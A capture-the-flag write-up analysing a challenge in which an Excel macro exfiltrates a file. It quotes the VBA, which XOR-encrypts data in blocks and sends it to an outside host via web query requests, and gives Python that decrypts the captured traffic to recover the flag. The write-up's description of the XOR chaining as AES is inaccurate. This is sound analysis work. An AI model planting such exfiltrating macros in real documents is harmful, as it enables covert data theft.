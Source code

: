 # Challenge 59 - Macro Economics
## The 2 Provided Files
- `exfil.pcap`, we can use Wireshark to open the file to reveal request details
- `important_spreadsheet.xlsm`, an Excel with VBA code inside

## The VBA code
- `sendFile` is the main function, by inspecting it, it is a loop to process a plaintext by blocks of 8 characters at a time with some cipher encryption
- the encryption Cipher function used `XOR` operation, suggesting it's like an AES
- Considering the reuse of the string at cell `A1` for each loop, we can find it's AES (CBC mode)

```vbnet
Function sendFile(b() As Byte) As String
  Dim tmpStr As String
  Dim midStr As String
  Dim out As String
  Dim urlStr As String
  Dim code As String
  Dim i
  urlStr = "URL;http://10.13.37.3/"
  req (urlStr)     'initialization to update cell A1 as "some" processed value
  code = Range("A1").Value
  tmpStr = StrConv(b(), vbUnicode)
  For i = 1 To 256 Step 8
    midStr = Mid(tmpStr, i, 8)    ' process the plain text by 8 characters a time, like a block
    out = Cipher(midStr, code)    ' do XOR operation to the block and "code"
    out = ByteArrayToHexStr(StrConv(out, vbFromUnicode))
    urlStr = "URL;http://10.13.37.3/?" & CStr(out)    ' use the XOR-ed text to send request, to get another "processed value" at A1
    req (urlStr)
    code = Range("A1").Value
  Next i
  sendFile = tmpStr
End Function

Function req(url As String)
  With ActiveSheet.QueryTables.Add(Connection:=url, Destination:=Range("A1"))
    .PostText = ""
    .PreserveFormatting = True
    .RefreshOnFileOpen = False
    .BackgroundQuery = False
    .RefreshStyle = xlOverwriteCells
    .WebSelectionType = xlEntirePage
    .WebPreFormattedTextToColumns = True
    .Refresh BackgroundQuery:=False
    .WorkbookConnection.Delete
    End With
End Function

Public Function Cipher(Text As String, Key As String) As String
  Dim bText() As Byte
  Dim bKey() As Byte
  Dim TextUB As Long
  Dim KeyUB As Long
  Dim TextPos As Long
  Dim KeyPos As Long

  bText = StrConv(Text, vbFromUnicode)
  bKey = StrConv(Key, vbFromUnicode)
  TextUB = UBound(bText)
  KeyUB = UBound(bKey)
  For TextPos = 0 To TextUB
    bText(TextPos) = bText(TextPos) Xor bKey(KeyPos)    ' XOR operation of each character
    If KeyPos < KeyUB Then
      KeyPos = KeyPos + 1
    Else
      KeyPos = 0
    End If
  Next TextPos
  Cipher = StrConv(bText, vbUnicode)
End Function
```

## Flow Diagram with AES (CBC mode) Demonstration
- Red: excel corresponding function
- Green: what the request does for each block of plaintext
- Brown: To solve the plaintext, simply do (<code>Param<sub>i+1</sub> XOR Response<sub>i</sub></code>)
- Note: the response actually have 16 bytes instead of 8 bytes, but it doesn't matter we just take the first 8
![alt text](aes_cbc_explanation.png)

## Sample Python Code
```python
from pwn import xor
param = [
    "184D5825262C6336",
    "6426435B4B626833",
    "045A125516100301",
    "10161F05120C0B0F",
    "454D53590B5D0507",
    "5702161C19004442",
    "034646154F0F5259",
    "52561D101614081C",
    "1156516D60641047",
    "1D150147420D564D",
    "03091A194B5D0315",
    "574E190C124F141B",
    "0557144603171757",
    "1D575C071208191C",
    "0902421A0844411D",
    "54074E0D004B565E",
    "1803510A0413104B",
    "667F71510155115B",
    "16530C071C561A49",
    "6D791C5A0E044C09",
    "5D0C402754070412",
    "00552D0A0F064A04",
    "0B113F7F2608575A",
    "0800134B02180606",
    "024306065E142118",
    "5547500509415A05",
    "4C7F38320C041A11",
    "5E411917570A050F",
    "165A563A5C001E15",
    "5D0D4F1F53011D19",
    "61701B18533F2836",
    "233C23605A41167E",
]
response = [
    b"7bxvco1sj8gwpr92",
    b"0uctdhbg9rzyvq57",
    b"l3aupyodmehvzfk6",
    b"0upkfmbanov57z9x",
    b"6m2yx8fu9qd7kr4c",
    b"2v6hqa0b9t3w5fjd",
    b"n35aom7yfqzd04iu",
    b"93md6gizvlypw1ox",
    b"txqgj3u5d9woz7na",
    b"x5h3by9m0cre42k7",
    b"ehvuk4majq2tg10c",
    b"8nmdwociyse0lab2",
    b"j9sfkvy3pwqxoeah",
    b"nw5s2kvijzqref9c",
    b"efbxmd4n5i8rkgya",
    b"1cnko9v30dp2rexf",
    b"qp5oawce3uhvml21",
    b"lu94s012goyt8iba",
    b"bsohq3igya5dr42n",
    b"gsz6oc7m9583krfi",
    b"mb4xgiep72kcs1hv",
    b"l0rgne84jszcqxu6",
    b"xl5uba3zshrcdmjn",
    b"qofkayrevwml9gdx",
    b"jcora4up78kbqs5t",
    b"43prh2zl0g9djqos",
    b"8u2yiaj1pqwneb6s",
    b"759d2iwjhyqpl1vb",
    b"btvq9en5wgy1r4dx",
    b"4yol2gx7mhijzur0",
    b"kz47slmu1cdrfhi6",
    b"qyw3zn9tmarix507",
    b"vmbcl8rnxked2zf9",
]
res = b''
for p, r in zip(param, response):
    res += xor(bytes.fromhex(p), r[:8])
print(res)
# b'// SECRETS //\n\nThis file contains a secret that must be kept safe. \n\nWere it to fall into the wrong hands it could be used for misdeeds.\n\nHere it comes.\n\nflag{d0nt_3nable_macr0s}\n\nDid you catch it? That was it\n\nKeep it secret. Keep it safe.\n\n// SECRETS //\n'
```